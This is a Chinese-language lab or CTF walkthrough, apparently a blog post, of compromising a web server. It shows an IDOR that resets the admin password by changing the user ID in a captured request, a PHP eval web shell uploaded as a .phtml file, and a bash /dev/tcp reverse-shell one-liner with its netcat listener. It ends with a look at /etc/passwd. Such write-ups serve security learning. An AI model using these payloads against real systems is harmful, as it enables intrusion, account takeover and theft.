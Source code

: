80 端口的 web 初步检查没有弱点，只能先注册一个账号登录进去看看。

登录后的页面，有一个更新用户信息和修改密码的选项。

![在这里插入图片描述](https://img-blog.csdnimg.cn/9f80790b827b489e9249529a434b77c5.png)

尝试修改 url 的 ID 参数，无果。

![在这里插入图片描述](https://img-blog.csdnimg.cn/f8d09e12a15144b6a66bada03beed200.png)

没办法。抓包看一下修改密码的数据包。

可以看到修改密码时附带了用户 ID。

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d4736140b474abb81835b83ead768f6.png)

那就尝试一下能不能通过修改提交的 ID 越权修改其他用户的密码。
尝试修改 ID 为 1 的用户，应该就是 admin。修改成功。

![在这里插入图片描述](https://img-blog.csdnimg.cn/76ae5b65051642f8b087c9edfec69589.png)

登录到 admin 之后发现可以上传文件。

![在这里插入图片描述](https://img-blog.csdnimg.cn/e4d005eb78c54cea927da0510cc6a17f.png)

在各种尝试之后，发现后端检测应该是黑名单机制。成功上传 .phtml 文件。

![在这里插入图片描述](https://img-blog.csdnimg.cn/2eeabc2fab1948fda42a574b95cf6ed2.png)

```php
<?php 
	echo 'Hello!';
	@eval($_POST['hello']);
?>
```

上传成功后给出了文件地址，访问发现文件可以被执行。

![在这里插入图片描述](https://img-blog.csdnimg.cn/25aee5302eda40b7bf7b117cd6fbf088.png)

使用蚁剑连接。

![在这里插入图片描述](https://img-blog.csdnimg.cn/aa7aca5994c945ccaed5b32a5a4347dd.png)

连接成功后首先使用蚁剑终端进行 shell 反弹。

**反弹 shell**：
1、kali：`nc -lv -p 6666`
2、server：`bash -c 'exec bash -i &>/dev/tcp/192.168.8.10/6666 <&1'`

成功反弹 shell。这里尝试了其他反弹 shell 的代码，有些不知道为什么不能运行，不过换其他语句即可。

![在这里插入图片描述](https://img-blog.csdnimg.cn/6681841288b14383aadb05788a75e546.png)

> 这里说一下为什么要第一时间反弹 shell，因为在其他终端（网页、蚁剑等）可能会有潜在的限制。不便于之后的操作（例如提权）。

可以尝试使用 `find` 命令查找敏感文件。不过这里直接查看一下 ==/etc/passwd== 文件，寻找一下存在可以提权的用户。
